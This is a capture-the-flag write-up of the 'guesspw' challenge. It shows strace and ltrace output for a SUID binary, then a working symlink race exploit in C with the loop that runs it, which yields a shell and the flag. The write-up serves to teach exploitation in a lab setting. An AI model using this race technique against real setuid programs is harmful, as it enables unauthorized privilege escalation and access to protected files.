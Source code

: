 ### Solved by superkojiman, barrebas, Swappage

guesspw is a SUID guesspw binary that takes a file as an argument. The contents of this file is compared with /home/guesspw/password and if they're the same, it gives us a shell. Naturally we don't have read permissions on /home/guesspw/password so we'll need to find a different way to get a shell.

I recreated the environment on the challenge server and used strace and ltrace to give me an idea of what was going on: 

```
# strace ./guesspw wut

getcwd("/root/codegate/guesspw", 4096)  = 23
lstat64("/root/codegate/guesspw/wut", {st_mode=S_IFREG|0644, st_size=23, ...}) = 0
open("/home/guesspw/password", O_RDONLY) = 3
open("/root/codegate/guesspw/wut", O_RDONLY) = 4
read(4, "this is a test message\n", 128) = 23
read(3, "hello\n", 128)                 = 6
exit_group(0)                           = ?
```

Here we see that my input file wut's contents didn't match the contents of the password file so it quit. But if they're the same, then we get our shell:

```
open("/home/guesspw/password", O_RDONLY) = 3
open("/root/codegate/guesspw/wut", O_RDONLY) = 4
read(4, "hello\n", 128)                 = 6
read(3, "hello\n", 128)                 = 6
geteuid32()                             = 0
geteuid32()                             = 0
geteuid32()                             = 0
setresuid32(0, 0, 0)                    = 0
execve("/bin/sh", ["sh"], [/* 37 vars */]) = 0
```

Could we just providet the actual password file then since the binary is guesspw and can therefore read it? No, as it turns out the binary checks the file's name using strstr(). If it contains "password" or "flag", it exits:

```
# ltrace ./guesspw wut
__libc_start_main(0x8048620, 2, 0xff92a194, 0x80495d0, 0x8049640 <unfinished ...>
memset(0xff928e70, '\000', 128)                                                                               = 0xff928e70
memset(0xff928df0, '\000', 128)                                                                               = 0xff928df0
realpath(0xff92a5ea, 0xff928f10, 128, 0, 0)                                                                   = 0
strstr("/home/guesspw/wut", "password")                                                                       = NULL
strstr("/home/guesspw/wut", "flag")                                                                           = NULL
open("/home/guesspw/password", 0, 0200)                                                                       = 3
open("/home/guesspw/wut", 0, 0200)                                                                            = -1
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

Sure enough, if I used wut_password, it quits:

```
# ltrace ./guesspw wut_password_flag 
__libc_start_main(0x8048620, 2, 0xffcc9dc4, 0x80495d0, 0x8049640 <unfinished ...>
memset(0xffcc8aa0, '\000', 128)                                                                               = 0xffcc8aa0
memset(0xffcc8a20, '\000', 128)                                                                               = 0xffcc8a20
realpath(0xffcca5dc, 0xffcc8b40, 128, 0, 0)                                                                   = 0xffcc8b40
strstr("/home/guesspw/wut_password_flag", "password")                                                         = "password_flag"
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

The calls to strstr() occur before open(), which led us to wonder if we could trigger a race condition. If we create a symlink to say /etc/passwd, then strstr() would pass. Then right after that, quickly update the symlink to point to /home/guesspw/password before open() was called. I reused some old code I'd written to exploit a race condition in a previous boot2root. I created the following C file, /tmp/skoji/race.c

```c
int main(int argc, char *argv[]) {
    while (1) {
        symlink("/etc/passwd", "/tmp/skoji/foo"); 
        unlink("/tmp/skoji/foo"); 

        symlink("/home/guesspw/password", "/tmp/skoji/foo"); 
        unlink("/tmp/skoji/foo"); 
    }
    return 0;
}
```

This infinite loop symlinks /tmp/skoji/foo to /etc/passwd and then removes it and symlinks it to /home/guesspw/password.

Compile: 

```plain
gcc race.c -o race
```

Now we run it and set a nice value to give it higher priority over guesspw: 

```
user@cg2015-1:/tmp/skoji$ nice -n 1 ./race
```

In another terminal, run guesspw. After several minutes we should win the race: 

```
user@cg2015-1:/home/guesspw$ while :; do ./guesspw /tmp/skoji/foo ; doneuser@\h:\w$         
user@\h:\w$ 
user@\h:\w$ id
uid=1003(guesspw) gid=1366(user1366) groups=1366(user1366)
user@\h:\w$ ls
flag  guesspw  password
user@\h:\w$ cat flag
cheapestflagever
```

The flag is ***cheapestflagever***

